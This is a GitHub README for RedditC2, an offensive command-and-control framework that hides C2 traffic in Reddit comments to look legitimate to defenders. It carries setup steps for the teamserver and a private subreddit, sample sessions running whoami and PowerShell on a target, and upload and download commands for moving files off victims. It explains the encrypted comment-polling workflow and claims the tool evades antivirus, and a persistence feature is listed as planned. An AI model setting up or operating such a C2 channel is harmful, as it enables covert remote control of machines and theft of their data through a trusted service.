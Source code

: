 <h1 align="center"> RedditC2</h1>
Abusing Reddit API to host the C2 traffic, since most of the blue-team members use Reddit, it might be a great way to make the traffic look legit.
<p align="center">
  <img width="300" height="300" src="https://user-images.githubusercontent.com/37262788/205896739-7feb0cea-cf04-4011-aa6b-66ba5b82b9ba.png">
</p>

---
> :no_entry_sign: [Disclaimer]: Use of this project is for **Educational/ Testing purposes only**. Using it on **unauthorised machines** is **strictly forbidden**. If somebody is found to use it for **illegal/ malicious intent**, author of the repo will **not** be held responsible.
---

## CyFI setup instructions
1. Install dependencies
```bash
pip3 install praw numpy pyreadline3 
```
2. Create test reddit account
   1. Manually sign up a reddit account and verify email address.
   2. Create a reddit script app, go to https://www.reddit.com/prefs/apps/, name the app, select 'script', set redirect url to 'http://localhost'.
   3. Then should see the app client_id under the newly created app name, and client_secret labeled as 'secret'.
3. Config the Teamserver.
   1. Go to the RedditC2/Teamserver folder.
   2. Put the previous client_id, client_secret, username, and password in config.json.
4. Setup a subreddit for C2.
   1. Manually create a subreddit or use an existing subreddit in your reddit account. For anomynity, create a new and Private subreddit (mySubreddit), and manually create a post under the subreddit (myPost).
5. Start the teamserver.
```bash
python teamserver.py
```
6. Enter the C2.
```bash
RedditC2> set subreddit mySubreddit
[*] Subreddit set to: mySubreddit
```
```bash
RedditC2> list listeners
[+] myPost
```
```bash
RedditC2> use listener myPost
[+] Entered the session
myPost>
```
7. Execute C2 commands. (During testing, the newly created reddit account is suspended as soon as starting to send commands.)
```bash
myPost> run whoami
[+] Command sent
[+] Received Output:
your_user_name
```
```bash
myPost> powershell 2+2
[+] Command sent
[+] Received Output:
4
```
To download and upload file use:
```bash
upload /path/to/file
download /path/to/file
```
To exit:
```bash
run exit
```
8. Additional commands
```
RedditC2> help

set subreddit                    --> Select the subreddit where you will create the listener
list listeners                   --> List all listeners you can use within the subreddit
use listener [session number]    --> Interact With Each Session Individually
run [command]                    --> Execute a cmd command
download [file_name]             --> Download a file from the target
upload [file_name]               --> Upload a file to the target
powershell [command]             --> Execute a powershell command
help                             --> Show the help menu
exit                             --> Exit from the session
clear                            --> Clear the screen
```


## Requirements
Install **PRAW** library in python3:  
```bash
pip3 install praw
```

## Quickstart
See the [Quickstart guide](https://github.com/kleiton0x00/RedditC2/wiki/Setup) on how to get going right away!

## Demo
https://user-images.githubusercontent.com/37262788/206015879-589614d5-1a7a-4c21-a342-75bdfc677a61.mp4

## Workflow
### Teamserver  
1. Go to the specific Reddit Post & post a new comment with the command ("in: <encrypted command>")
2. Read for new comment which includes the word "out:"
3. If no such comment is found, go back to step 2
4. Parse the comment, decrypt it and read it's output
5. Edit the existing comment to "executed", to avoid reexecuting it

### Client  
1. Go to the specific Reddit Post & read the latest comment which includes "in:"
2. If no new comment is detected, go back to step 1
3. Parse the command out of the comment, decrypt it and execute it locally
4. Encrypt the command's output and reply it to the respective comment ("out:" <encrypted output>)

Below is a demonstration of the XOR-encrypted C2 traffic for understanding purposes:  
![Screenshot from 2022-12-15 10-58-34](https://user-images.githubusercontent.com/37262788/207849406-6c221102-9352-46dc-a461-947b66e3a712.png)

## Scanning results
Since it is a custom C2 Implant, it doesn't get detected by any AV as the bevahiour is completely legit.
<img width="406" height="553" src="https://user-images.githubusercontent.com/37262788/205900070-783c65b3-4d83-4d5e-82e3-c20571b403e1.png">

## TO-DO
- [X] Teamserver and agent compatible in Windows/Linux  
- [X] Make the traffic encrypted  
- [X] Add upload/download feature
- [ ] Add persistence feature
- [ ] Generate the agents dynamically (from the TeamServer)
- [X] Tab autocompletion

## Credits
Special thanks to [@T4TCH3R](https://github.com/T4TCH3R/) for working with me and contributing to this project.
